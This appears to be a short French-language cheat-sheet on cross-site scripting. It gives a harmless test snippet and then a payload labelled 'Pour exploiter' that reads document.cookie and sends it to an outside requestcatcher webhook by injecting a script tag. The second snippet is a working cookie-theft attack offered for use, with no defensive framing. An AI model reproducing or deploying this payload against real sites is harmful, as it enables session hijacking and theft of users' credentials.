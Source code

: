 # Web

## XSS

```js
// Pour tester
<p id="p1">Testarossa</p>
<script>
document.getElementById("p1").innerHTML = "Life found a way !";
</script>
```

Webhook : https://busterbaxter.requestcatcher.com/
```js
// Pour exploiter
<script>
var url="https://busterbaxter.requestcatcher.com/";
var extra=document.cookie;

var script = document.createElement("script");
script.src = url + extra;
document.body.appendChild(script);
</script>:-)
```
